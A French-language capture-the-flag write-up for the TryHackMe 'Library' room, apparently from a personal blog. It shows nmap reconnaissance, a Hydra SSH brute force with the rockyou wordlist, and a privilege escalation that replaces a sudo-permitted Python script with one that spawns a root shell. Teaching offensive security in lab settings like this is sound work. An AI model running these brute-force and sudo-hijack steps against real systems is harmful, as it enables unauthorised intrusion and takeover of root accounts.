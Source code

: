 ```yaml
---
title: Library (Guatemala CTF)
tags: [TryHackMe, Facile, Linux, Force brute]
style: border
color: thm
comments: false
description: L'art de réécrire un script à son avantage
modified: 18/03/2025
---
```

Lien vers l'épreuve : <https://tryhackme.com/room/bsidesgtlibrary>

![Easy](https://img.shields.io/badge/Difficulté-Facile-Green?logo=tryhackme)

## Sommaire <!-- omit in toc -->

* [1. Reconnaissance](#1-reconnaissance)
* [2. Exploration du site](#2-exploration-du-site)
* [3. Trouver un mot de passe](#3-trouver-un-mot-de-passe)
* [4. Élévation de privilèges](#4-élévation-de-privilèges)

## 1. Reconnaissance

```bash
nmap -T4 -A 10.10.121.39
```

{% capture spoil %}
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-03 14:41 CEST
Nmap scan report for 10.10.121.39
Host is up (0.030s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
|   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
|_  256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.56 seconds
{% endcapture %}
{% include elements/spoil.html %}

Le scan {% include dictionary.html word="NMAP" %} met en évidence la présence d'un serveur {% include dictionary.html word="SSH" %} sur le port 22, et d'un serveur Apache sur le port 80. Ce service dispose d'un fichier `robots.txt` qui permet d'empêcher aux moteurs de recherche de référencer les pages indiquées dans ce fichier.

## 2. Exploration du site

Nous commençons par vérifier le contenu du fichier `robots.txt` mis en avant par le scan précédent :

```bash
curl 'http://10.10.121.39/robots.txt'
User-agent: rockyou
Disallow: /
```

Le `User-agent` indique le nom d'une liste de mots de passe nommée *rockyou*. Cette liste est souvent utilisée pour trouver des mots de passe "faible" dans des outils de force brute comme *<abbr title="Logiciel de craquage de mot de passe">John The Ripper</abbr>*, *{% include dictionary.html word="Hashcat" %}* ou encore *{% include dictionary.html word="Hydra" %}*.

{% include elements/figure_spoil.html image="/images/THM/20240903/VirtualBox_Kali Hack_03_09_2024_14_53_15.png" caption="Première connexion" %}

Le site héberge un blog, dont l'auteur s'appelle "meliodas". Nous utiliserons cet identifiant pour tenter de trouver un mot de passe valide pour une connexion SSH grâce à l'outil *{% include dictionary.html word="Hydra" %}*.

## 3. Trouver un mot de passe

L'outil *{% include dictionary.html word="Hydra" %}* nous permet bien de trouver le mot de passe de l'utilisateur "meliodas"

```bash
hydra -l 'meliodas' -P /usr/share/wordlists/rockyou.txt 10.10.121.39 ssh
```

{% capture spoil %}
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-03 15:03:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.121.39:22/
[STATUS] 146.00 tries/min, 146 tries in 00:01h, 14344256 to do in 1637:29h, 13 active
[22][ssh] host: 10.10.121.39   login: meliodas   password: i[...expurgé...]1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-03 15:05:30
{% endcapture %}
{% include elements/spoil.html %}

Grâce à ces identifiants, nous pouvons accéder au serveur et récupérer le 1er flag.

```bash
ssh meliodas@10.10.121.39

cat user.txt
6d488c[...expurgé...]35f4ec
```

## 4. Élévation de privilèges

L'utilisateur meliodas est habilité à utiliser la commande {% include dictionary.html word="sudo" %} sans mot de passe pour lancer un script Python :

```bash
sudo -l
Matching Defaults entries for meliodas on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User meliodas may run the following commands on ubuntu:
    (ALL) NOPASSWD: /usr/bin/python* /home/meliodas/bak.py
```

Le script en question appartient à root, et meliodas n'a que la possibilité de le lire. Nous ne pourrons pas modifier ce script pour obtenir un *{% include dictionary.html word="reverse-shell" %}*.

```bash
ls -hAl bak.py
-rw-r--r-- 1 root root 353 Aug 23  2019 bak.py
```

Le script semble permettre de faire une sauvegarde du contenu du site vers une archive `website.zip`

```python
#!/usr/bin/env python
import os
import zipfile

def zipdir(path, ziph):
    for root, dirs, files in os.walk(path):
        for file in files:
            ziph.write(os.path.join(root, file))

if __name__ == '__main__':
    zipf = zipfile.ZipFile('/var/backups/website.zip', 'w', zipfile.ZIP_DEFLATED)
    zipdir('/var/www/html', zipf)
    zipf.close()
```

Nous pouvons néanmoins supprimer puis recréer le fichier `bak.py` afin d'obtenir un shell root. Pour ce faire, nous utiliserons la commande proposée par [GTFOBins](https://gtfobins.github.io/gtfobins/python/#shell) en l'adaptant à nos besoins :

```bash
rm -f bak.py

echo "import os
> os.system('/bin/bash')" > bak.py

sudo /usr/bin/python3 ~/bak.py

id
uid=0(root) gid=0(root) groups=0(root)
```

Maintenant que nous avons accès au compte root, nous pouvons lire le dernier flag.

```bash
cat /root/root.txt
e8c8c6[...expurgé...]88c617
```
